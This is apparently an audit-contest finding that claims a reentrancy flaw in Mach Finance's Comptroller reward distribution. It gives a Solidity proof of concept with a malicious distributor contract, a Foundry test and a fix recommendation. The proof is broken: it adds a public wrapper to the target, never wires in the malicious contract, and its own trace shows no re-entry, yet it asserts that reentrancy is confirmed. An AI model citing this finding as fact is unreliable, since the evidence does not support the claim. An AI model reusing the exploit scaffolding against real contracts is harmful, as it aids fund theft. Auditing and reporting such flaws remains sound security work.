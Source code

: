 Raspy Metal Rattlesnake

High

# [High] Reentrancy Vulnerability in Reward Distribution

## Summary

The `Comptroller` contract in Mach Finance allows external calls to the `rewardDistributor` without protection against **reentrancy**. Specifically, the functions `updateAndDistributeSupplierRewardsForToken` and `updateAndDistributeBorrowerRewardsForToken` are vulnerable. A **Proof of Concept (PoC)** confirmed this issue.

## Proof of Concept (PoC)

### Objective

To simulate a reentrancy attack on the reward distribution logic using a malicious contract.

### Steps to Reproduce

1. **Expose the Vulnerable Function**

   Add the following wrapper in `Comptroller.sol` to expose the internal function:
   https://github.com/sherlock-audit/2024-12-mach-finance/blob/main/contracts/src/Comptroller.sol#L1212-1222

   ```solidity
   function exposeUpdateAndDistributeSupplierRewardsForToken(address cToken, address supplier) public {
       updateAndDistributeSupplierRewardsForToken(cToken, supplier);
   }
   ```

2. **Create a Malicious Contract**

   Deploy a malicious contract to re-enter `Comptroller`:

   ```solidity
   contract MaliciousRewardDistributor {
       Comptroller public comptroller;

       constructor(address _comptroller) {
           comptroller = Comptroller(_comptroller);
       }

       function attack(CToken cToken, address supplier) external {
           comptroller.exposeUpdateAndDistributeSupplierRewardsForToken(address(cToken), supplier);
       }

       function updateSupplyIndexAndDisburseSupplierRewards(CToken cToken, address supplier) external {
           comptroller.exposeUpdateAndDistributeSupplierRewardsForToken(address(cToken), supplier);
       }
   }
   ```

3. **Write and Run the Test Case**

   Create a test to simulate the attack:

   ```solidity
   function testReentrancyAttack() public {
       vm.startPrank(attacker);

       maliciousDistributor.attack(CToken(address(0)), supplier);

       vm.stopPrank();
   }
   ```

4. **Execute the Test**

   Run the test:

   ```bash
   forge test --match-contract ComptrollerReentrancyTest -vvvv
   ```

   Result
   The test confirms that reentrancy is possible:

   ```rust
   Logs:
       Reentrancy test completed. Check for inconsistencies.
   Traces:
       ├─ MaliciousRewardDistributor::attack()
       │   ├─ Comptroller::exposeUpdateAndDistributeSupplierRewardsForToken()
   ```

## Impact

* **Reward Manipulation:** An attacker could claim rewards multiple times.
* **State Corruption:** Reentrant calls could leave the protocol in an inconsistent state.
* **Protocol Losses:** Funds allocated for rewards could be drained, risking the protocol’s financial health.

## Recommendations

Add nonReentrant protection to the following functions in `Comptroller.sol`:

* `updateAndDistributeSupplierRewardsForToken`
* `updateAndDistributeBorrowerRewardsForToken`

![Screenshot from 2024-12-17 20-57-26](https://github.com/user-attachments/assets/8d7a4c6e-7768-453b-a106-2062e3cb8ff5)


